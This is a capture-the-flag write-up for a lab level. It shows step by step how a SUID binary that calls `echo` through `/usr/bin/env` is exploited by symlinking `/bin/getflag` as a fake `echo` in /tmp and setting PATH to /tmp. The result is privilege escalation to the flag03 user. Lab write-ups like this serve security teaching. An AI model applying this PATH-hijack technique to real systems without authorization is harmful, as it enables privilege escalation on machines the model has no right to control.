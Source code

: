 ### Solution

1. **List files in the home directory:**

	```bash
	ls -l
	```

	You’ll see the following SUID binary:

	```
	-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
	```

	This binary is **owned by `flag03`** and **has the SUID bit set**, meaning it runs with `flag03`’s privileges when executed.

2. **Analyze the binary with Ghidra:**

	Using Ghidra you’ll discover the binary runs:

	```c
	system("/usr/bin/env echo Exploit me");
	```

	This means it uses `/usr/bin/env` to find and execute the first `echo` command in your `$PATH`.

3. **Exploit it by creating a link between files**

	Create a directory and a fake `echo` that actually runs `getflag`:

	```bash
	ln -s /bin/getflag /tmp/echo
	```

4. **Set your custom `PATH`**

	```bash
	export PATH=/tmp
	```

5. **Run the vulnerable binary**

	```bash
	./level03
	```

	Since the binary runs `system("/usr/bin/env echo ...")`, and your `PATH` has a fake `echo`, this runs:

	```
	/bin/getflag
	```

	You’ll receive the `flag03` token.
